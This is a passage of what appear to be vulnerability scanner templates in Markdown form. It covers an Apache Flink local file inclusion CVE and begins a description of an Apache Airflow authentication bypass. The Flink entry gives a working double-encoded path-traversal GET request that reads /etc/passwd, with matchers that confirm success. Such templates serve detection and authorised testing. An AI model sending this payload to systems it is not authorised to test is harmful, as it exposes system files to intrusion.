 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Apache Flink - Local File Inclusion

## Description

- Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process (aka local file inclusion).
- severity - high
- tags - cve,cve2020,apache,lfi,flink

## Requests

- Method - GET

### URL

- {{BaseURL}}/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Apache Airflow \<1.10.14 - Authentication Bypass

## Description

- Apache Airflow prior to 1.10.14 contains an authentication bypass vulnerability via incorrect session validation with default configuration. An attacker on site A can access unauthorized Airflow on site B through the site A session.
